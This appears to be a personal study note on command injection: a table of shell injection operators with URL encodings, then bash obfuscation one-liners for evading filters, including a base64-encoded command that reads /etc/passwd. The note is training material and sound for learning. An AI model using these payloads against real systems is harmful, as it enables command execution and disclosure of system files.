

# command_injection

Created: March 23, 2025 9:55 PM

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ```` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |



```bash
echo $(tr '!-}' '"-~'<<<[)
```


```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

```bash
echo 'imaohw' | rev
```

```bash
$(rev<<<'imaohw')
```


```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

---

[Command_Injections_Module_Cheat_Sheet.pdf](command_injection/Command_Injections_Module_Cheat_Sheet.pdf)